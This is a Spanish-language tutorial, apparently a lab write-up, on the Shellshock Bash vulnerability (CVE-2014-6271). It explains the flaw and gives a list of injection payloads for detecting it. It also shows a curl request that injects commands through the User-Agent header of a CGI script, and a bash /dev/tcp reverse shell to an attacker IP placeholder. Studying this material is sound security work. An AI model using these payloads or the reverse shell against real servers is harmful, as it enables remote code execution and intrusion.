

# Shellshock (CVE-2014-6271)

---

**Shellshock** es una vulnerabilidad crítica que afecta al intérprete de comandos **Bash** en muchos sistemas operativos Unix y Linux. Se descubrió en **2014** y permite a los atacantes **ejecutar comandos** **arbitrarios** en sistemas vulnerables pudiendo incluso permitir la ejecución de comandos remotos. La vulnerabilidad Shellshock afecta a las versiones de Bash desde la versión **1.14** hasta la versión **4.3**.

La vulnerabilidad permite ejecutar comandos inyectado a través de un variable de entorno después de declarar una función en bash. Es decir, que técnicamente si a una variable de entorno le indicamos el valor de `() { :; };` — *Así es cómo se declara una función en Bash* —, luego de definir estos caractéres colocamos un `echo` para definir una especie de delimitador o separador que crea una nueva línea y por último el comando que queremos ejecutar.

```bash
env var_name='() { :; }; echo ES_VULNERABLE' /bin/bash -c 'echo PRUEBA'

# Output
ES_VULNERABLE
PRUEBA
```

# Detectar si un sistema es vulnerable

---

## Verificación de Versión

Lo primero que debemos verificar es si la versión de Bash es vulnerable para eso utilizamos el siguiente comando:

```bash
bash --version
```

Si la versión se encuentra entre la 1.14 y la 4.3 es vulnerable a Shellshock.

## Inyección de Exploits

Si bien, quizás estaremos realizando un ataque de manera remota como **mostraremos más adelante** y, por ende, no tendremos acceso a la terminal, en este caso podemos realizar un conjunto de inyecciónes de exploits para detectar la vulnerabilidad.

```bash
() { :; }; echo ; /bin/bash -c '_COMMAND_'

() { :; }; echo _CHECKER_; /bin/bash -c '_COMMAND_'

() { :;}; echo '_CHECKER_' 'BASH_FUNC_x()=() { :;}; echo _CHECKER_' bash -c 'echo _COMMAND_'

() { :; }; echo ; /bin/bash -c '_COMMAND_';echo _CHECKER_;

() { (a)=>\\' /bin/bash -c 'echo _CHECKER_'; cat echo

/bin/bash -c 'true <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF' || echo '_CHECKER_, redir_stack'

(for x in {1..200} ; do echo \"for x$x in ; do :\"; done; for x in {1..200} ; do echo done ; done) | /bin/bash || echo '_CHECKER_, word_lineno'

() { _; } >_[$($())] { echo _CHECKER_; id; } /bin/bash -c '_COMMAND_'

shellshocker='() { echo _CHECKER_; }' bash -c shellshocker

() { x() { _; }; x() { _; } <<a; } /bin/bash -c _COMMAND_;echo _CHECKER_

() { }; echo _CHECKER_' /bin/bash -c '_COMMAND_'
```

Cualquiera de estos exploits pueden ser usado para verificar la existencia de la vulnerabilidad.

# Contexto de un Ataque Remoto

---

Como se ve anteriormente se podemos encontrarnos en un contexto remoto así qué ¿Cómo podemos ejecutar código local de manera remota en la máquina objetivo?

## Ataque Web a traves de CGI

CGI, o Common Gateway Interface, es un estándar que permite a un servidor web ejecutar programas externos, llamados scripts CGI, y devolver su salida para su visualización en un navegador web. Estos scripts pueden ser escritos en varios lenguajes de programación, tales como Bash, Perl, Python, etc., y son comúnmente utilizados para generar contenido web dinámico o interactuar con bases de datos.

En pocas palabras, con CGI podemos ejecutar comandos en el servidor local y obtener una salida en la web. En algunos casos las cabeceras de las peticiones HTTP pueden ser convertidas a variables de entorno, por ende, si el script que se está ejecutando está escrito en Bash o usa la función system o similares para ejecutar comandos desde un lenguaje de programación entonces nosotros podemos aprovechar esto e introducir nuestro exploit para que cuando se invoque Bash este cargue lea las variables de entorno y ejecute nuestro código en el servidor.

Aquí tenemos un sitio que en su página principal muestra un tiempo regresivo, esto lo hace ejecutando un script en el servidor y trayendonos un resultado.



Si vemos el código fuente veremos la ruta del archivo CGI que ejecuta dicho script.


Al dirigirnos a esta ruta vemos el mismo texto que se muestra en la página principal.


 Realizamos con CURL la siguiente petición.

```bash
**kali@kali [~]$** curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'whoami'" http://192.71.92.3/gettime.cgi
```

Obtendremos en el output el resultado de la ejecución del comando.


# Ganando una Reverse Shell con este Ataque

---

Para ganar una Reverse Shell haciendo uso de este ataque primero nos pondremos a la escucha en nuestra máquina atacante por un puerto con NetCat.


Y luego en lugar de ejecutar un simple `whoami` ejecutamos un `bash -i>&/dev/tcp/IP_ATACANTE/PUERTO 0>&1` obtendremos una conexión reversa a nuestra máquina que nos permitirá ejecutar comando remotos en el servidor objetivo.


# Entorno de pruebas vulnerable

---

Ubuntu 12.04 ([Download from ubuntu.com](https://old-releases.ubuntu.com/releases/12.04/))